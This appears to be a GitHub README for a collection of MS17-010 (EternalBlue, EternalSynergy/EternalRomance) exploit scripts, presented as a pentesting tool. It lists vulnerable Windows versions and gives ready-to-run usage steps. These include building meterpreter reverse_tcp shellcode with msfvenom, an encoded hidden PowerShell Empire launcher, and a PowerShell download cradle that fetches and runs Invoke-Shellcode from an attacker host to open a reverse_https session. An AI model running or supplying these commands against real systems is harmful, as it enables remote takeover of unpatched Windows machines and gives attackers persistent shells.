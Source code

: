 # MS17-010 RCE PoC's

All credits go out to [worawit](https://github.com/worawit/MS17-010). I've just added some usage clarifications and made them more usable for pentesting purposes.

## Eternalblue

Eternalblue only requires access to IPC$ to exploit a target while other exploits require access to a named pipe as well. Eternalblue thus works on all versions of Windows that allow anonymous access to IPC$ (Windows 7 and Windows 2008, or later version explicitly configured to allow anonymous access). Keep in mind that Eternalblue has a higher change of crashing a target than Eternalsynergy - Eternalromance.

#### Compatible targets

**eternalblue_exploit7:**

- Windows 7 SP1 x64
- Windows 2008 R2 SP1 x64
- Windows 7 SP1 x86
- Windows 2008 SP1 x86

**eternalblue_exploit8:**

- Windows 2012 R2 x64
- Windows 8.1 x64

#### Exploit usage

Example for spawning a meterpreter session on an x64 machine:

1. `nasm -f bin eternalblue_kshellcode_x64.asm`
2. `msfvenom -p windows/x64/meterpreter/reverse_tcp -f raw -o meterpreter_msf.bin EXITFUNC=thread LHOST=<LOCAL_IP> LPORT=<LOCAL_PORT>`
3. `cat eternalblue_kshellcode_x64 meterpreter_msf.bin > sc_x64.bin`
4. `python eternalblue_exploit7.py <TARGET_IP> shellcode/sc_x64.bin`


## Eternalsynergy - Eternalromance

This exploit exploits the same bug used by NSA's Eternalromance and Eternalsynergy. A named pipe is needed, meaning on more modern (default) configurations you will need credentials in order for the exploit to work. In most cases, domain user credentials will suffice. 

#### Compatible targets

x64 architecture only

- Windows 2016 x64
- Windows 2012 R2 x64
- Windows 8.1 x64
- Windows 2008 R2 SP1 x64
- Windows 7 SP1 x64

#### Usage

Usage: 
`python eternalsynergy_romance.py <target_ip_address> <named_pipe> <DOMAIN\username> <password> <command_to_execute>`

Example for spawning an Empire agent:
`python eternalsynergy_romance.py 192.168.178.2 netlogon WORKGROUP\testuser !Password123 "powershell.exe -NoP -sta -NonI -W Hidden -Enc WwBTAHkAUwB0AEUAbQAuAE4AZQBUAC..."`

Example for spawning a meterpreter session:
`python zzz_exploit2.py 192.168.178.26 netlogon "powershell -Exec ByPass -NoP -noexit \"IEX (New-Object Net.WebClient).DownloadString('http://192.168.178.25/Invoke-Shellcode.ps1'); Invoke-Shellcode -Payload windows/meterpreter/reverse_https -Lhost 192.168.178.25 -Lport 8443 -Force \""`

(I typically grab Invoke-Shellcode.ps1 from http://bit.ly/2cuWJTF, but that only works when the target has an unfiltered outbound connection.)



